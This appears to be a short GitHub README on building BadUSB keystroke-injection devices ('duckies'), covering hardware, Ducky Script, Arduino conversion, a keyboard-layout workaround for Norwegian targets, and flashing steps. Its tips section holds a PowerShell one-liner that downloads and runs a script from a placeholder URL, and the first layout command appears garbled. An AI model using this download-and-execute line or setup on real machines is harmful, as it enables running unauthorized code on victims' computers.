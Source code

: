 # Duckies

## What to buy
**NOTE** The Arduino Beetle doesn't use ducky script, but Arduino Sketches. Luckily, there's an online converter, so you only need to focus on the Ducky Script linked below.
* [BadUSB Beetle - Arduino Leonardo R3 DC 5v 16MHz](https://www.aliexpress.com/item/32954241500.html?spm=a2g0s.9042311.0.0.6efa4c4dXO8gwF)
* [Cactus WHID (WiFi Duckie)](https://www.aliexpress.com/item/32318391529.html?spm=a2g0s.9042311.0.0.6efa4c4dXO8gwF)


## The scripting language
[Ducky Script](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript)
### Convert from Ducky Script to Arduino Sketch
[Converter](http://roothaxor.gitlab.io/ducky2arduino_stable/)

## Norwegian specific
The Ducky types using US_ENGLISH keyboard layout, meaning the payloads won't work on targets using the Norwegian keyboard layouts. The work-around is to change the layout to US_ENGLISH at the beginning of the script, then whatever payload, then optionally change it back.

The script I'm using:
From NOR to ENG - 
`PowerShell Set/WinUserLanguageList /LanguageList en/US, nb /Force`

And from ENG to NOR - 
`PowerShell Set-WinUserLanguageList -LanguageList nb, en-US -Force`

Alternatively, you can map out the US_ENGLISH keystrokes to the corresponding NORWEGIAN-layout.

## To get the script on to your duck
[Arduino IDE](https://www.arduino.cc/download_handler.php)

1. Write / Paste converted code
2. Verify the code
3. Compile ("Push" to Arduino device) 

**NB!!!** the script will execute after compile is done

![](https://github.com/datasnoken/duckies/blob/master/arduinoIDE.PNG)



## Tips
Find a way to do it in Powershell, and run the script from the web as so:

`IEX ((New-Object System.Net.Webclient).DownloadString(\"YOUR_SCRIPT_HOSTED_ON_SOME_SITE_AS_RAW\")); exit`


